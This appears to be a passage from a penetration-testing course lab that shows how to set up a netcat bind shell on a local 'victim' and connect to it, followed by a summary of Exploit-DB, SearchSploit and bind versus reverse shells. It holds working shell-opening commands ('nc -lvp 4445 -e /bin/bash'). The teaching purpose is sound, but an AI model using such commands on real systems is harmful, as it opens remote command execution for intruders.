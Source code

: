 1. In the victim/target's window on the right, run `nc -lvp 4445 -e /bin/bash`.

    - The victim now has /bin/bash listening on port 4445, as the following image shows:

	 ![A screenshot depicts the command and its result in the terminal.](images/netcat4.png)
	
2. In the attacker window on the left, connect to port 4445: `nc 127.0.0.1 4445`. Run the `id` command to show you have a shell and can execute commands, as the following image shows: 

	![A screenshot depicts the command in the terminal.](images/netcat5.png)

    - A bind shell requires the listener to be set up on the victim/target, where a reverse shell has the listener on the attacker's machine.

**Summary**

Summarize the concepts covered in the previous sections:
  - **Exploit-DB.com** is a popular online database that contains publicly disclosed exploits, cataloged according to their **Common Vulnerability and Exposure (CVE)** identifiers.
  - **SearchSploit** is a command-line utility for Exploit-DB that allows you to take an offline copy of the entire Exploit database with you wherever you go.
    - Security professionals can perform detailed offline searches of hundreds of exploit scripts from Exploit-DB using the locally checked-out copy of the online repository.
    - SearchSploit is installed on your Kali machine. 
  - After determining which exploits to use, exploits can be attempted in the **exploitation** phase.
  - Exploited access to a machine is typically granted in the form of terminal access, known as a **shell**.
  - Two types of shells are **bind** and **reverse**.
     - A **bind shell** is where the remote host opens a port for the current host to connect to. The current, local host then connects to that remote host's port.
     - A **reverse shell** is where the remote host connects back to a port on the local host.
